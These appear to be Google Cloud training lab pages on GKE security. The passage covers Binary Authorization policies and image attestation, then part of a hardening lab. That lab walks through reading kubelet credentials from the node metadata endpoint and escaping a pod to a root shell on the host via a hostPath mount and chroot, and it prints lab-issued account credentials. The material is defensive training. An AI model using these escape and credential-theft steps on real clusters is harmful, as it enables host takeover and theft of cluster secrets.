kubeconfig entry generated for my-cluster-1.
```

The script will:

1. Enable the necessary APIs in your project. Specifically, `container`, `containerregistry`, `containeranalysis`, and `binaryauthorization`.
2. Create a new Kubernetes Engine cluster in your default ZONE, VPC and network.
3. Retrieve your cluster credentials to enable `kubectl` usage.

It is safe to ignore warnings.

## Task 4. Validation

- The following script will validate that the demo is deployed correctly:

```
./validate.sh -c my-cluster-1
```

Copied!

If the script fails, it will output:

```
Validation Failed: the BinAuthZ policy was NOT available
```

And / Or

```
Validation Failed: the Container Analysis API was NOT available
```

If the script passes, it will output:

```
Validation Passed: the BinAuthZ policy was available
Validation Passed: the Container Analysis API was available
```

### Test completed task

Click **Check my progress** to verify your performed task. If you have successfully created a Kubernetes cluster with Binary Authorization, you will see an assessment score.

Create a Kubernetes Cluster with Binary Authorization


Check my progress

## Task 5. Using Binary Authorization

### Managing the Binary Authorization Policy

To access the Binary Authorization Policy configuration UI, perform the following steps:

1. In the Google Cloud console, navigate to the **Security** > **Binary Authorization**.


1. Click **Edit Policy**.


**Note:** To access the Binary Authorization Policy configuration via `gcloud`:


Run `gcloud beta container binauthz policy export > policy.yaml`

Make the necessary edits to `policy.yaml`

Run `gcloud beta container binauthz policy import policy.yaml`

The policy you are editing is the "default" policy, and it applies to *all GKE clusters in the Google Cloud project* unless a cluster-specific policy is in place.

The recommendation is to create policies specific to each cluster and achieve successful operation (allowlisting registries as needed), and then set the default project-level policy to "Deny All Images". Any new cluster in this project will then need its own cluster-specific policy.

1. After clicking **Edit Policy**, the following will appear. Click the down arrow next to **Custom Exemption Rules** to display them:


The default policy rule is to `Allow all images`. This mimics the behavior as if Binary Authorization wasn't enabled on the cluster.

If the default rule is changed to `Disallow all images` or `Allow only images that have been approved by all of the following attestors`, then images that do not match the exempted registry image paths or do not have the required attestations will be blocked, respectively.

Next, you will make some edits to the policy:

1. Change your **Default rule** to `Disallow all images`
2. In Additional settings for GKE and Anthos deployments, click **Create Specific Rules**.
3. Select **GKE Cluster** from the dropdown and click **Change**.
4. Under **GKE Cluster-specific rules**, Click **Add Specific Rule**.
5. In the **Add GKE Cluster-specific rule** field, enter your location and cluster name in the form `location.clustername`. e.g. `europe-west4-c`.my-cluster-1 which corresponds to the zone `europe-west4-c` and the cluster name `my-cluster-1`.
6. Select the default rule of `Allow all images` for your cluster.
7. Click **ADD**.


1. Click **Save Policy**.

### Test completed task

Click **Check my progress** to verify your performed task. If you have successfully updated Binary Authorization Policy to add Disallow all images rule at project level and allow all images at cluster level, you will see an assessment score.

Update Binary Authorization Policy to add Disallow all images rule at project level and allow at cluster level


Check my progress

## Task 6. Creating a private GCR image

1. To simulate a real-world configuration, create a private GCR container image in your project.
2. You will pull down the `nginx` container from `nginx` project and push it to your own GCR repository without modification.
3. In Cloud Shell, pull down the `latest` `nginx` container:

```
docker pull nginx:latest
```

Copied!

1. Authenticate docker to the project:

```
gcloud auth configure-docker
```

Copied!

When prompted, `Do you want to continue (Y/n)?` Enter `Y`.

1. Set the PROJECT_ID shell variable:

```
PROJECT_ID="$(gcloud config get-value project)"
```

Copied!

1. Tag and push it to the current project's GCR:

```
docker tag nginx "gcr.io/${PROJECT_ID}/nginx:latest"
docker push "gcr.io/${PROJECT_ID}/nginx:latest"
```

Copied!

1. List the "private" nginx image in your own GCR repository:

```
gcloud container images list-tags "gcr.io/${PROJECT_ID}/nginx"
```

Copied!

## Task 7. Denying all images

To prove that image denial by policy will eventually work as intended, first verify that the cluster-specific `allow` rule is in place and allows all containers to run.

1. To do this, launch a single `nginx` pod:

```
cat << EOF | kubectl create -f -
apiVersion: v1
kind: Pod
metadata:
  name: nginx
spec:
  containers:
  - name: nginx
    image: "gcr.io/${PROJECT_ID}/nginx:latest"
    ports:
    - containerPort: 80
EOF
```

Copied!

You should see a message stating that `pod/nginx created`.

1. List the pods:

```
kubectl get pods
```

Copied!

Output:

```
NAME    READY     STATUS    RESTARTS   AGE
nginx   1/1       Running   0          1m
```

If this fails recheck your cluster-specific region and name and try again.

1. Now, delete this pod:

```
kubectl delete pod nginx
```

Copied!

1. Next, prove that the Binary Authorization policy can block undesired images from running in the cluster.

On the Binary Authorization page, click **Edit Policy**,

1. Click on the three vertical dots to the right of your GKE Cluster specific rule, and click **edit**.
2. Then, select `Disallow all images`, click **Submit**.

Your policy should look similar to the following:


1. Finally, click **Save Policy** to apply those changes.

**Note:** Wait at least 30 seconds before proceeding to allow the policy to take effect.

### Test completed task

Click **Check my progress** to verify your performed task. If you have successfully updated Binary Authorization Policy to Disallow all images rule at cluster level, you will see an assessment score.

Update cluster specific policy to Disallow all images


Check my progress

1. Now, run the same command as before to create the static `nginx` pod:

```
cat << EOF | kubectl create -f -
apiVersion: v1
kind: Pod
metadata:
  name: nginx
spec:
  containers:
  - name: nginx
    image: "gcr.io/${PROJECT_ID}/nginx:latest"
    ports:
    - containerPort: 80
EOF
```

Copied!

This time, though, you should receive a message from the API server indicating that the policy prevented this pod from being successfully run:

```
Error from server (VIOLATES_POLICY): error when creating "STDIN": admission webhook "imagepolicywebhook.image-policy.k8s.io" denied the request: Image gcr.io/qwiklabs-gcp-00-ce851250686b/nginx:latest denied by Binary Authorization cluster admission rule for europe-west4-c.my-cluster-1. Denied by always_deny admission rule
```

To be able to see when any and all images are blocked by the Binary Authorization Policy, navigate to the GKE Audit Logs in Stackdriver and filter on those error messages related to this activity.

1. In the Google Cloud console, navigate to the **Navigation menu** > **Logging** > **Logs Explorer**.
2. Populate the **Query builder** box with:

```
resource.type="k8s_cluster" protoPayload.response.reason="VIOLATES_POLICY"
```

Copied!


1. Click **Run Query**.
2. You should see errors corresponding to the blocking of the `nginx` pod from running.

### Test completed task

Click **Check my progress** to verify your performed task. If you have successfully verified cluster admission rule, you will see an assessment score.

Create a Nginx pod to verify cluster admission rule is applied for disallow all images (denies to create)


Check my progress

## Task 8. Denying images except from allowlisted container registries

1. Let's say that you actually want to allow *just* that nginx container to run. The quickest step to enable this is to *allowlist* the registry that it comes from.
2. You will use the output of the following command as your image path:

```
echo "gcr.io/${PROJECT_ID}/nginx*"
```

Copied!

1. Copy the image path output to your buffer.
2. Navigate to the **Navigation menu** > **Security** > **Binary Authorization**.
3. Edit the Binary Authorization Policy, under **Custom exemption rules** display the image paths, then click **Add an Image Pattern**.
4. Paste in the image path you copied earlier. The image below shows an example path.


1. Click **Save Policy**, then run:

```
cat << EOF | kubectl create -f -
apiVersion: v1
kind: Pod
metadata:
  name: nginx
spec:
  containers:
  - name: nginx
    image: "gcr.io/${PROJECT_ID}/nginx:latest"
    ports:
    - containerPort: 80
EOF
```

Copied!

You should now be able to launch this pod and prove that registry allowlisting is working correctly.

1. Run the following to clean up and prepare for the next steps:

```
kubectl delete pod nginx
```

Copied!

### Test completed task

Click **Check my progress** to verify your performed task. If you have successfully updated Binary Authorization policy to allowlist the container registry, you will see an assessment score.

Update BA policy to denying images except from allowlisted container registries (your project container registry)


Check my progress

## Task 9. Enforcing attestations

Allowlisting container image registries is a great first step in preventing undesired container images from being run inside a cluster, but there is more you can do to ensure the container was built correctly.

You want to cryptographically verify that a given container image was approved for deployment. This is done by an "attestation authority" which states or *attests* to the fact that a certain step was completed. The attestation authority does this by using a PGP key to *sign* a snippet of metadata describing the SHA256 hash of a container image and submitting it to a central metadata repository--the Container Analysis API.

Later, when the Admission Controller goes to validate if a container image is allowed to run by consulting a Binary Authorization policy that requires attestations to be present on an image, it will check to see if the Container Analysis API holds the signed snippet(s) of metadata saying which steps were completed. With that information, the Admission Controller will know whether to allow or deny that pod from running.

Next, perform a manual attestation of a container image. You will take on the role of a human attestation authority and will perform all the steps to sign a container image, create a policy to require that attestation to be present on images running inside your cluster, and then successfully run that image in a pod.

### Setting up the necessary variables

1. Attestor name/email details:

```
ATTESTOR="manually-verified" # No spaces allowed
ATTESTOR_NAME="Manual Attestor"
ATTESTOR_EMAIL="$(gcloud config get-value core/account)" # This uses your current user/email
```

Copied!

1. Container Analysis Note ID/description of your attestation authority:

```
NOTE_ID="Human-Attestor-Note" # No spaces
NOTE_DESC="Human Attestation Note Demo"
```

Copied!

1. Names for files to create payloads/requests:

```
NOTE_PAYLOAD_PATH="note_payload.json"
IAM_REQUEST_JSON="iam_request.json"
```

Copied!

### Creating an attestation note

The first step is to register the attestation authority as a [Container Analysis note](https://cloud.google.com/binary-authorization/docs/key-concepts#analysis_notes) with the Container Analysis API. To do this, you'll create an `ATTESTATION` note and submit it to the API.

1. Create the `ATTESTATION` note payload:

```
cat > ${NOTE_PAYLOAD_PATH} << EOF
{
  "name": "projects/${PROJECT_ID}/notes/${NOTE_ID}",
  "attestation_authority": {
    "hint": {
      "human_readable_name": "${NOTE_DESC}"
    }
  }
}
EOF
```

Copied!

1. Submit the `ATTESTATION` note to the Container Analysis API:

```
curl -X POST \
    -H "Content-Type: application/json" \
    -H "Authorization: Bearer $(gcloud auth print-access-token)"  \
    --data-binary @${NOTE_PAYLOAD_PATH}  \
    "https://containeranalysis.googleapis.com/v1beta1/projects/${PROJECT_ID}/notes/?noteId=${NOTE_ID}"
```

Copied!

You should see the output from the prior command display the created note, but the following command will also list the created note:

```
curl -H "Authorization: Bearer $(gcloud auth print-access-token)"  \
    "https://containeranalysis.googleapis.com/v1beta1/projects/${PROJECT_ID}/notes/${NOTE_ID}"
```

Copied!

### Creating a PGP signing key

As your attestation authority uses a PGP key to perform the cryptographic signing of the image metadata, create a new PGP key and export the public PGP key.

**Note:** This error messages related to this activity. PGP key is not password protected for this exercise. In a production system, be sure to properly safeguard your private PGP keys.

1. Set another shell variable:

```
PGP_PUB_KEY="generated-key.pgp"
```

Copied!

1. Create the PGP key:

```
sudo apt-get install rng-tools
```

Copied!

```
sudo rngd -r /dev/urandom
```

Copied!

```
gpg --quick-generate-key --yes ${ATTESTOR_EMAIL}
```

Copied!

1. Press **Enter** to use an empty passphrase and acknowledge warnings.
2. Extract the public PGP key:

```
gpg --armor --export "${ATTESTOR_EMAIL}" > ${PGP_PUB_KEY}
```

Copied!

### Registering the Attestor in the Binary Authorization API

The next step is to create the "attestor" in the Binary Authorization API and add the public PGP key to it.

1. Create the Attestor in the Binary Authorization API:

```
gcloud --project="${PROJECT_ID}" \
    beta container binauthz attestors create "${ATTESTOR}" \
    --attestation-authority-note="${NOTE_ID}" \
    --attestation-authority-note-project="${PROJECT_ID}"
```

Copied!

1. Add the PGP Key to the Attestor:

```
gcloud --project="${PROJECT_ID}" \
    beta container binauthz attestors public-keys add \
    --attestor="${ATTESTOR}" \
    --pgp-public-key-file="${PGP_PUB_KEY}"
```

Copied!

1. List the newly created Attestor:

```
gcloud --project="${PROJECT_ID}" \
    beta container binauthz attestors list
```

Copied!

The output should look similar to the following:

```
NAME: manually-verified
NOTE: projects/<project_id>/notes/Human-Attestor-Note
NUM_PUBLIC_KEYS: 1
</project_id>
```

## Task 10. "Signing" a container image

The preceeding steps only need to be performed once. From this point on, this step is the only step that needs repeating for every new container image.

The `nginx` image at `nginx:latest` is already built and available for use. Perform the manual attestations on it as if it were your own image built by your own processes and save the step of having to build it.

1. Set a few shell variables:

```
GENERATED_PAYLOAD="generated_payload.json"
GENERATED_SIGNATURE="generated_signature.pgp"
```

Copied!

1. Get the PGP fingerprint:

```
PGP_FINGERPRINT="$(gpg --list-keys ${ATTESTOR_EMAIL} | head -2 | tail -1 | awk '{print $1}')"
```

Copied!

1. Obtain the SHA256 Digest of the container image:

```
IMAGE_PATH="gcr.io/${PROJECT_ID}/nginx"
IMAGE_DIGEST="$(gcloud container images list-tags --format='get(digest)' $IMAGE_PATH | head -1)"
```

Copied!

1. Create a JSON-formatted signature payload:

```
gcloud beta container binauthz create-signature-payload \
    --artifact-url="${IMAGE_PATH}@${IMAGE_DIGEST}" > ${GENERATED_PAYLOAD}
```

Copied!

1. View the generated signature payload:

```
cat "${GENERATED_PAYLOAD}"
```

Copied!

1. "Sign" the payload with the PGP key:

```
gpg --local-user "${ATTESTOR_EMAIL}" \
    --armor \
    --output ${GENERATED_SIGNATURE} \
    --sign ${GENERATED_PAYLOAD}
```

Copied!

1. View the generated signature (PGP message):

```
cat "${GENERATED_SIGNATURE}"
```

Copied!

1. Create the attestation:

```
gcloud beta container binauthz attestations create \
    --artifact-url="${IMAGE_PATH}@${IMAGE_DIGEST}" \
    --attestor="projects/${PROJECT_ID}/attestors/${ATTESTOR}" \
    --signature-file=${GENERATED_SIGNATURE} \
    --public-key-id="${PGP_FINGERPRINT}"
```

Copied!

1. View the newly created attestation:

```
gcloud beta container binauthz attestations list \
    --attestor="projects/${PROJECT_ID}/attestors/${ATTESTOR}"
```

Copied!

## Task 11. Running an image with attestation enforcement enabled

The next step is to change the Binary Authorization policy to enforce that attestation is to be present on all images that do not match the allowlist pattern(s).

1. To change the policy to require attestation, run the following and then copy the full path/name of the attestation authority:

```
echo "projects/${PROJECT_ID}/attestors/${ATTESTOR}" # Copy this output to your copy/paste buffer
```

Copied!

1. Next, edit the Binary Authorization policy to `edit` the GKE Cluster specific rule.

Click the three dots by your cluster name to **Edit** your cluster-specific rules.

1. Select `Require attestations (Allow only images that have been verified by all of the following attestors)` instead of `Disallow all images` in the pop-up window.:


1. Next, click on `Add Attestors` followed by `Add by attestor resource ID`. Enter the contents of your copy/paste buffer in the format of `projects/${PROJECT_ID}/attestors/${ATTESTOR}`, then click **Add 1 Attestor**, and then click **Submit**, and finally click **Save Policy**.


The default policy should still show `Disallow all images`, but the cluster-specific rule should be requiring attestation.

1. Now, obtain the most recent SHA256 Digest of the signed image from the previous steps:

```
IMAGE_PATH="gcr.io/${PROJECT_ID}/nginx"
IMAGE_DIGEST="$(gcloud container images list-tags --format='get(digest)' $IMAGE_PATH | head -1)"
```

Copied!

1. After waiting at least 30 seconds from the time the Binary Authorization policy was updated, run the pod and verify success:

```
cat << EOF | kubectl create -f -
apiVersion: v1
kind: Pod
metadata:
  name: nginx
spec:
  containers:
  - name: nginx
    image: "${IMAGE_PATH}@${IMAGE_DIGEST}"
    ports:
    - containerPort: 80
EOF
```

Copied!

Congratulations! You have now manually attested to a container image and enforced a policy for that image inside your GKE cluster.

### Test completed task

Click **Check my progress** to verify your performed task. If you have successfully updated Binary Authorization policy to modify cluster specific rule to allow only images that have been approved by attestors, you will see an assessment score.

Update BA policy to modify cluster specific rule to allow only images that have been approved by attestors


Check my progress

## Task 12. Handling emergency situations

From a user's perspective, the Binary Authorization policy may incorrectly block an image or there may be another issue with the successful operation of the admission controller webhook.

In this "emergency" case, there is a "break glass" capability that leverages a specific annotation to signal to the admission controller to run the pod and skip policy enforcement.

**Note:** You will want to notify a security team when this occurs as this can be leveraged by malicious users if they have the ability to create a pod.

In this case, though, your response procedures can be started within seconds of the activity occurring. The logs are available in Stackdriver:

1. To run an unsigned `nginx` container with the "break glass" annotation, run:

```
cat << EOF | kubectl create -f -
apiVersion: v1
kind: Pod
metadata:
  name: nginx-alpha
  annotations:
    alpha.image-policy.k8s.io/break-glass: "true"
spec:
  containers:
  - name: nginx
    image: "nginx:latest"
    ports:
    - containerPort: 80
EOF
```

Copied!

1. In the Google Cloud console, navigate to the **Navigation menu** > **Logging** > **Logs Explorer** page.

2. Populate the **Query builder** box with below and then Click **Run Query**:

   ```
   resource.type="k8s_cluster" protoPayload.request.metadata.annotations."alpha.image-policy.k8s.io/break-glass"="true"
   ```

   Copied!

3. You should see events when the admission controller allowed a pod due to the annotation being present. From this filter, you can create a `Sink` which sends logs that match this filter to an external destination.


**Note:** Wait for atleast 5 to 10 minutes for the logs to appear.

## Task 13. Tear down

Qwiklabs will remove all resources you created for this lab, but it's good to know how to clean up your own environment.

1. The following script will destroy the Kubernetes Engine cluster:

```
./delete.sh -c my-cluster-1
```

Copied!

If you created your own cluster name at the beginning of the lab, use that name. In this example the name `my-cluster-1` was used.

The last lines of the output will be:

```
Deleting cluster
```

**Note:** Cluster delete command is being run asynchronously and will take a few moments to be removed. Use the **Cloud Console UI** or `gcloud container clusters list` command to track the progress if desired. Wait until cluster get removed.

### Test completed task

Click **Check my progress** to verify your performed task. If you have successfully deleted your cluster, you will see an assessment score.

Tear Down (delete cluster)


Check my progress

The following commands will remove the remaining resources.

1. Delete the container image that was pushed to GCR:

```
gcloud container images delete "${IMAGE_PATH}@${IMAGE_DIGEST}" --force-delete-tags
```

Copied!

1. If prompted, `Do you want to continue (Y/n)?` enter `Y`.
2. Delete the Attestor:

```
gcloud --project="${PROJECT_ID}" \
    beta container binauthz attestors delete "${ATTESTOR}"
```

Copied!

1. Delete the Container Analysis note:

```
curl -X DELETE \
    -H "Authorization: Bearer $(gcloud auth print-access-token)" \
    "https://containeranalysis.googleapis.com/v1beta1/projects/${PROJECT_ID}/notes/${NOTE_ID}"
```

Copied!

## Troubleshooting in your own environment

1. If you update the Binary Authorization policy and very quickly attempt to launch a new pod/container, the policy might not have time to take effect. You may need to wait 30 seconds or more for the policy change to become active. To retry, delete your pod using `kubectl delete <podname>` and resubmit the pod creation command.
2. Run `gcloud container clusters list` command to check the cluster status.
3. If you enable additional features like `--enable-network-policy`, `--accelerator`, `--enable-tpu`, or `--enable-metadata-concealment`, you may need to add additional registries to your Binary Authorization policy allowlist for those pods to be able to run. Use `kubectl describe pod <podname>` to find the registry path from the image specification and add it to the allowlist in the form of `gcr.io/example-registry/*` and save the policy.
4. If you get errors about quotas, please increase your quota in the project. Learn more about resource quotas from the [Resource quotas documentation](https://cloud.google.com/compute/quotas).

## Relevant materials

1. [Google Cloud Quotas](https://cloud.google.com/compute/quotas)
2. [Signup for Google Cloud](https://cloud.google.com/)
3. [Google Cloud Shell](https://cloud.google.com/shell/docs/)
4. [Binary Authorization in GKE](https://cloud.google.com/binary-authorization/)
5. [Container Analysis notes](https://cloud.google.com/binary-authorization/docs/key-concepts#analysis_notes)
6. [Kubernetes Admission Controller](https://kubernetes.io/docs/reference/access-authn-authz/admission-controllers/)
7. [Launch Stages](https://cloud.google.com/terms/launch-stages)

## Congratulations!

**Manual Last Updated October 4, 2024**

**Lab Last Tested April 4, 2024**

Copyright 2024 Google LLC. This software is provided as-is, without warranty or representation for any use or purpose. Your use of it is subject to your agreement with Google.


## LAB - Hardening Default GKE Cluster Configurations

## Overview

This lab demonstrates some of the security concerns of a default GKE cluster configuration and the corresponding hardening measures to prevent multiple paths of pod escape and cluster privilege escalation. These attack paths are relevant in the following scenarios:

1. An application flaw in an external facing pod that allows for Server-Side Request Forgery (SSRF) attacks.
2. A fully compromised container inside a pod allowing for Remote Command Execution (RCE).
3. A malicious internal user or an attacker with a set of compromised internal user credentials with the ability to create/update a pod in a given namespace.

This lab was created by GKE Helmsman engineers to help you grasp a better understanding of hardening default GKE cluster configurations.

*The example code for this lab is provided as-is without warranty or guarantee*

### Objectives

Upon completion of this lab you will understand the need for protecting the GKE Instance Metadata and defining appropriate PodSecurityPolicy policies for your environment.

You will:

1. Create a small GKE cluster using the default settings.
2. Validate the most common paths of pod escape and cluster privilege escalation from the perspective of a malicious internal user.
3. Harden the GKE cluster for these issues.
4. Validate the cluster so that those actions are no longer allowed.

## Setup and requirements

### Before you click the Start Lab button

Read these instructions. Labs are timed and you cannot pause them. The timer, which starts when you click **Start Lab**, shows how long Google Cloud resources are made available to you.

This hands-on lab lets you do the lab activities in a real cloud environment, not in a simulation or demo environment. It does so by giving you new, temporary credentials you use to sign in and access Google Cloud for the duration of the lab.

To complete this lab, you need:

- Access to a standard internet browser (Chrome browser recommended).

**Note:** Use an Incognito (recommended) or private browser window to run this lab. This prevents conflicts between your personal account and the student account, which may cause extra charges incurred to your personal account.

- Time to complete the lab—remember, once you start, you cannot pause a lab.

**Note:** Use only the student account for this lab. If you use a different Google Cloud account, you may incur charges to that account.

### How to start your lab and sign in to the Google Cloud console

1. Click the **Start Lab** button. If you need to pay for the lab, a dialog opens for you to select your payment method. On the left is the Lab Details pane with the following:

   - The Open Google Cloud console button
   - Time remaining
   - The temporary credentials that you must use for this lab
   - Other information, if needed, to step through this lab

2. Click **Open Google Cloud console** (or right-click and select **Open Link in Incognito Window** if you are running the Chrome browser).

   The lab spins up resources, and then opens another tab that shows the Sign in page.

   ***Tip:\*** Arrange the tabs in separate windows, side-by-side.

   **Note:** If you see the **Choose an account** dialog, click **Use Another Account**.

3. If necessary, copy the **Username** below and paste it into the **Sign in** dialog.

   ```
   student-02-e164b91bf60d@qwiklabs.net
   ```

   Copied!

   You can also find the Username in the Lab Details pane.

4. Click **Next**.

5. Copy the **Password** below and paste it into the **Welcome** dialog.

   ```
   7ZUIm6rpni18
   ```

   Copied!

   You can also find the Password in the Lab Details pane.

6. Click **Next**.

   **Important:** You must use the credentials the lab provides you. Do not use your Google Cloud account credentials.

   **Note:** Using your own Google Cloud account for this lab may incur extra charges.

7. Click through the subsequent pages:

   - Accept the terms and conditions.
   - Do not add recovery options or two-factor authentication (because this is a temporary account).
   - Do not sign up for free trials.

After a few moments, the Google Cloud console opens in this tab.

**Note:** To access Google Cloud products and services, click the **Navigation menu** or type the service or product name in the **Search** field. 

### Activate Cloud Shell

Cloud Shell is a virtual machine that is loaded with development tools. It offers a persistent 5GB home directory and runs on the Google Cloud. Cloud Shell provides command-line access to your Google Cloud resources.

1. Click **Activate Cloud Shell**  at the top of the Google Cloud console.
2. Click through the following windows:
   - Continue through the Cloud Shell information window.
   - Authorize Cloud Shell to use your credentials to make Google Cloud API calls.

When you are connected, you are already authenticated, and the project is set to your **Project_ID**, `qwiklabs-gcp-01-8af92117868a`. The output contains a line that declares the **Project_ID** for this session:

```
Your Cloud Platform project in this session is set to qwiklabs-gcp-01-8af92117868a
```

`gcloud` is the command-line tool for Google Cloud. It comes pre-installed on Cloud Shell and supports tab-completion.

1. (Optional) You can list the active account name with this command:

```
gcloud auth list
```

Copied!

1. Click **Authorize**.

**Output:**

```
ACTIVE: *
ACCOUNT: student-02-e164b91bf60d@qwiklabs.net

To set the active account, run:
    $ gcloud config set account `ACCOUNT`
```

1. (Optional) You can list the project ID with this command:

```
gcloud config list project
```

Copied!

**Output:**

```
[core]
project = qwiklabs-gcp-01-8af92117868a
```

**Note:** For full documentation of `gcloud`, in Google Cloud, refer to [the gcloud CLI overview guide](https://cloud.google.com/sdk/gcloud).

## Task 1. Create a simple GKE cluster

1. Set a zone into an environment variable called MY_ZONE. This lab is using "`us-east1-b`", you can select a [zone](https://cloud.google.com/compute/docs/regions-zones/) if you prefer:

```
export MY_ZONE=us-east1-b
```

Copied!

1. Run this to start a Kubernetes cluster managed by Kubernetes Engine named `simplecluster` and configure it to run 2 nodes:

```
gcloud container clusters create simplecluster --zone $MY_ZONE --num-nodes 2 --metadata=disable-legacy-endpoints=false
```

Copied!

It takes several minutes to create a cluster as Kubernetes Engine provisions virtual machines for you. The warnings about features available in new versions can be safely ignored for this lab.

1. After the cluster is created, check your installed version of Kubernetes using the `kubectl version` command:

```
kubectl version
```

Copied!

The `gcloud container clusters create` command automatically authenticated `kubectl` for you.

1. View your running nodes in the Cloud Console. On the **Navigation menu**, click **Compute Engine** > **VM Instances**.

Your Kubernetes cluster is now ready for use.

Click *Check my progress* to verify the objective.

Create a simple GKE cluster


Check my progress


## Task 2. Run a Google Cloud-SDK pod

1. From your Cloud Shell prompt, launch a single instance of the Google Cloud-SDK container:

```
kubectl run -it --rm gcloud --image=google/cloud-sdk:latest --restart=Never -- bash
```

Copied!

This will take a few minutes to complete.

**Note:** If you get a timed out error, run the command again.

1. You should now have a bash shell inside the pod's container:

```
root@gcloud:/#
```

It may take a few seconds for the container to be started and the command prompt to be displayed. If you don't see a command prompt, try pressing **Enter**.

### Explore the Compute Metadata endpoint

1. Run the following command to access the `v1` Compute Metadata endpoint:

```
curl -s http://metadata.google.internal/computeMetadata/v1/instance/name
```

Copied!

Output looks like:

```
...snip...
Your client does not have permission to get URL <code>/computeMetadata/v1/instance/name</code> from this server. Missing Metadata-Flavor:Google header.
...snip...
```

Notice how it returns an error stating that it requires the custom HTTP header to be present.

1. Add the custom header on the next run and retrieve the Compute Engine instance name that is running this pod:

```
curl -s -H "Metadata-Flavor: Google" http://metadata.google.internal/computeMetadata/v1/instance/name
```

Copied!

Output looks like:

```
gke-simplecluster-default-pool-b57a043a-6z5v
```

**Note:** If a custom HTTP header is not required to access a Compute Engine Instance Metadata endpoint, an attacker would need only an application flaw to trick a web URL to provide user credentials. By requiring a custom HTTP header, an attack is more difficult as the attacker would need both an application flaw and the custom header to be successful.

Keep this shell inside the pod available for the next step.

1. If you accidentally exit from the pod, simply re-run:

```
kubectl run -it --rm gcloud --image=google/cloud-sdk:latest --restart=Never -- bash
```

Copied!

### Explore the GKE node bootstrapping credentials

1. From inside the same pod shell, run the following command to list the attributes associated with the underlying Compute Engine instances. Be sure to include the trailing slash:

```
curl -s -H "Metadata-Flavor: Google" http://metadata.google.internal/computeMetadata/v1/instance/attributes/
```

Copied!

Perhaps the most sensitive data in this listing is `kube-env`. It contains several variables which the `kubelet` uses as initial credentials when attaching the node to the GKE cluster. The variables `CA_CERT`, `KUBELET_CERT`, and `KUBELET_KEY` contain this information and are therefore considered sensitive to non-cluster administrators.

1. To see the potentially sensitive variables and data, run the following command:

```
curl -s -H "Metadata-Flavor: Google" http://metadata.google.internal/computeMetadata/v1/instance/attributes/kube-env
```

Copied!

Therefore, in any of the following situations:

- A flaw that allows for SSRF in a pod application
- An application or library flaw that allow for RCE in a pod
- An internal user with the ability to create or exec into a pod

There exists a high likelihood for compromise and exfiltration of sensitive `kubelet` bootstrapping credentials via the Compute Metadata endpoint. With the `kubelet` credentials, it is possible to leverage them in certain circumstances to escalate privileges to that of `cluster-admin` and therefore have full control of the GKE Cluster including all data, applications, and access to the underlying nodes.

### Leverage the Permissions assigned to this Node Pool's service account

By default, Google Cloud projects with the Compute API enabled have a default service account in the format of `NNNNNNNNNN-compute@developer.gserviceaccount.com` in the project and the `Editor` role attached to it. Also by default, GKE clusters created without specifying a service account will utilize the default Compute service account and attach it to all worker nodes.

1. Run the following `curl` command to list the OAuth scopes associated with the service account attached to the underlying Compute Engine instance:

```
curl -s -H "Metadata-Flavor: Google" http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/scopes
```

Copied!

(output)

```
 https://www.googleapis.com/auth/devstorage.read_only https://www.googleapis.com/auth/logging.write https://www.googleapis.com/auth/monitoring https://www.googleapis.com/auth/service.management.readonly https://www.googleapis.com/auth/servicecontrol https://www.googleapis.com/auth/trace.append 
```


The combination of authentication scopes and the permissions of the service account dictates what applications on this node can access. The above list is the minimum scopes needed for most GKE clusters, but some use cases require increased scopes.

**Warning:** If, during cluster creation, you configured the authentication scope to include `https://www.googleapis.com/auth/cloud-platform`, any Google Cloud API would be in scope and only IAM permissions assigned to the service account would determine access.

Further, if the default service account with the default IAM Role of `Editor` is in use, any pod on this node pool has `Editor` permissions to the Google Cloud project where the GKE cluster is deployed. As the `Editor` IAM Role has a wide range of read/write permissions to interact with project resources such as Compute instances, Cloud Storage buckets, GCR registries, and more, this is a significant security risk.

1. Exit out of this pod by typing:

```
exit
```

Copied!

**Note:** If did not return to cloud shell press ctrl+c

## Task 3. Deploy a pod that mounts the host filesystem

One of the simplest paths for "escaping" to the underlying host is by mounting the host's filesystem into the pod's filesystem using standard Kubernetes `volumes` and `volumeMounts` in a `Pod` specification.

1. To demonstrate this, run the following to create a Pod that mounts the underlying host filesystem `/` at the folder named `/rootfs` inside the container:

```
cat <<EOF | kubectl apply -f -
apiVersion: v1
kind: Pod
metadata:
  name: hostpath
spec:
  containers:
  - name: hostpath
    image: google/cloud-sdk:latest
    command: ["/bin/bash"]
    args: ["-c", "tail -f /dev/null"]
    volumeMounts:
    - mountPath: /rootfs
      name: rootfs
  volumes:
  - name: rootfs
    hostPath:
      path: /
EOF
```

Copied!

1. Run `kubectl get pod` and re-run until it's in the "Running" state:

```
kubectl get pod
```

Copied!

(Output)

```
NAME       READY   STATUS    RESTARTS   AGE
hostpath   1/1     Running   0          30s
```

Click *Check my progress* to verify the objective.

Deploy a pod that mounts the host filesystem


Check my progress


## Task 4. Explore and compromise the underlying host

1. Run the following to obtain a shell inside the pod you just created:

```
kubectl exec -it hostpath -- bash
```

Copied!

1. Switch to the pod shell's root filesystem point to that of the underlying host:

```
chroot /rootfs /bin/bash
```

Copied!

With those simple commands, the pod is now effectively a `root` shell on the node. You are now able to do the following:

| run the standard docker command with full permissions        | `docker ps`                                          |
| ------------------------------------------------------------ | ---------------------------------------------------- |
| list docker images                                           | `docker images`                                      |
| `docker run` a privileged container of your choosing         | `docker run --privileged <imagename>:<imageversion>` |
| examine the Kubernetes secrets mounted                       | `mount | grep volumes | awk '{print $3}' | xargs ls` |
| `exec` into any running container (even into another pod in another namespace) | `docker exec -it <docker container ID> sh`           |

Nearly every operation that the `root` user can perform is available to this pod shell. This includes persistence mechanisms like adding SSH users/keys, running privileged docker containers on the host outside the view of Kubernetes, and much more.

1. To exit the pod shell, run `exit` twice - once to leave the `chroot` and another to leave the pod's shell:

```
exit
```

Copied!

```
exit
```

Copied!

**Note:** If did not return to cloud shell press ctrl+c

1. Now you can delete the `hostpath` pod:

```
kubectl delete pod hostpath
```

Copied!

### Understand the available controls

The next steps of this demo will cover:

- **Disabling the Legacy Compute Engine Metadata API Endpoint** - By specifying a custom metadata key and value, the `v1beta1` metadata endpoint will no longer be available from the instance.
- **Enable Metadata Concealment** - Passing an additional configuration during cluster and/or node pool creation, a lightweight proxy will be installed on each node that proxies all requests to the Metadata API and prevents access to sensitive endpoints.
- **Enable and Utilize Pod Security Admission** - Enable the Pod Security Admission (PSA) controller in your GKE cluster. This provides the ability to enforce pod security standards that enhance your cluster's security posture.

## Task 5. Deploy a second node pool

